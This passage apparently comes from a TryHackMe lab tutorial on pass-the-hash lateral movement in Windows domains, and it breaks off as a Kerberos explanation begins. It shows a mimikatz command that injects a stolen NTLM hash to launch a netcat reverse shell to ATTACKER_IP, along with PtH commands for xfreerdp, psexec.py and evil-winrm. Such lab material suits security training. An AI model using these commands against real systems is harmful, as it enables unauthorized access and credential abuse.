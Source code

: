 We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse  shell (or any other command you like) as follows:

```powershell
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Notice we used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work. 

This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse  shell from where we can launch any command as the victim user.

To receive the reverse shell, we should run a reverse listener on our AttackBox:

-  **AttackBox**        

```shell-session
user@AttackBox$ nc -lvp 5555
        
```

Interestingly, if you run the whoami command on this shell, it will  still show you the original user you were using before doing PtH, but  any command run from here will actually use the credentials we injected  using PtH.

**Passing the Hash Using Linux:**

If you have access to a linux box (like your AttackBox), several  tools have built-in support to perform PtH using different protocols.  Depending on which services are available to you, you can do the  following:

- *Connect to RDP using PtH:*

```shell-session
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

- *Connect via psexec using PtH:*

```shell-session
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

**Note:** Only the linux version of psexec support PtH.

- *Connect to WinRM using PtH:*

```shell-session
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

## Kerberos Authentication

Let's have a quick look at how Kerberos authentication works on Windows networks:

1. The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.
